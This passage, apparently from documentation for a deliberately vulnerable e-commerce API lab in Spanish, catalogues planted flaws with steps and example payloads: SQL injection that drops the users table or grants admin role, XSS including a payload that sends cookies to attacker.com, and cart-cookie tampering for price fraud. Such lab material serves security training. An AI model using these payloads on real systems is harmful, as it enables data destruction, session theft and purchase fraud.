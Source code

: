 ### 3.2 Inyección en Panel Admin
- **Ubicación**: `/api/v1/admin/users`
- **Descripción**: Filtros de administración vulnerables
- **Pasos**:
  1. Acceder como admin
  2. Usar filtro de usuarios
- **Payload de ejemplo**:
  ```sql
  '; DROP TABLE users--
  '; UPDATE users SET role='admin'--
  ```
- **Criterio de éxito**: Modificar datos o estructura de BD
- **Impacto**: Manipulación de base de datos

## 4. Cross-Site Scripting (XSS)

### 4.1 XSS en Comentarios
- **Ubicación**: `/api/v1/products/{id}/comments`
- **Descripción**: Comentarios sin sanitizar permiten XSS
- **Pasos**:
  1. Agregar comentario en producto
  2. Insertar payload XSS
- **Payloads de ejemplo**:
  ```javascript
  <script>alert(document.cookie)</script>
  <img src=x onerror="fetch('http://attacker.com/'+document.cookie)">
  <svg onload="alert(1)">
  ```
- **Criterio de éxito**: Script ejecutado al ver comentario
- **Impacto**: Robo de sesión, defacement

### 4.2 XSS en Perfil
- **Ubicación**: `/api/v1/users/profile`
- **Descripción**: Campos de perfil permiten HTML
- **Pasos**:
  1. Editar perfil
  2. Insertar payload en bio
- **Criterio de éxito**: HTML/JavaScript ejecutado en perfil
- **Impacto**: Ataque a otros usuarios

## 5. Insecure Deserialization

### 5.1 Carrito Vulnerable
- **Ubicación**: `/api/v1/cart`
- **Descripción**: Datos del carrito en cookie insegura
- **Pasos**:
  1. Agregar items al carrito
  2. Modificar cookie serializada
- **Payload de ejemplo**:
  ```python
  # Cookie original (base64)
  # Modificar cantidad y precio
  ```
- **Criterio de éxito**: Manipular precios/cantidades
- **Impacto**: Fraude en compras
